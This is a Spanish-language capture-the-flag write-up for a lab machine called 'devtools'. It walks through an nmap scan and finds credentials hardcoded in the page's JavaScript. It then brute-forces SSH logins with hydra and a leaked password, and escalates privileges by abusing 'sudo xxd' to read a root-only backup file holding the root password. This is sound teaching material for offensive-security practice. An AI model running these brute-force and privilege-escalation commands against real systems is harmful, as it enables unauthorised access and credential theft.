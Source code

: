 # Máquina devtools

---

Dificultad -> Medium

---

Primero realizo un nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Podemos ver que está el puerto 80 y 22 abiertos por lo que accedo desde el navegador

![](assets/2025-10-28-18-26-52-image.png)

Al entrar vemos que nos sale un mensaje donde nos pide una contraseña.

Si abrimos las devtools (Ctrl+Shift+I) y nos vamos al debugger podemos ver el script que nos pide la contraseña (backup.js) y cual es esta (chocolate:chocolate)

![](assets/2025-10-28-18-29-34-image.png)

Tambíen se puede ver un comentario diciendo que la antigua contraseña es baluleroh.

Viendo que no encuentro nada más en el codigo fuente de la pagina y que haciendo fuzzing no encuentro nada, pruebo a hacer un ataque de fuerza bruta con hydra con la contraseña baluleroh

```shell
hydra -L /usr/share/wordlists/rockyou.txt -p baluleroh ssh://172.17.0.2 -t 4 -I
```

y efectivamente, consigo las credenciales del usuario carlos

![](assets/2025-10-28-18-47-56-image.png)

Me conecto por ssh y ejecuto sudo -l para ver binarios que puedo ejecutar como root

![](assets/2025-10-28-18-51-28-image.png)

Encuentro xxd y ping, me meto a [GTFOBins](https://gtfobins.github.io/) y veo que con xxd puedo leer y modificar archivos asi que busco a ver si hay algun archivo que podamos leer o editar

![](assets/2025-10-28-19-44-19-image.png)

Encuentro una nota en la carpeta de carlos que dice que hay un backup en root/data.bak pero no podemos acceder sin root

![](assets/2025-10-28-19-47-06-image.png)

Utlizamos el xxd para leer el archivo /root/data.bak

```shell
sudo xxd "/root/data.bak" | xxd -r
```

![](assets/2025-10-28-19-51-38-image.png)

Y nos da la contraseña de root con la que acabamos esta máquina


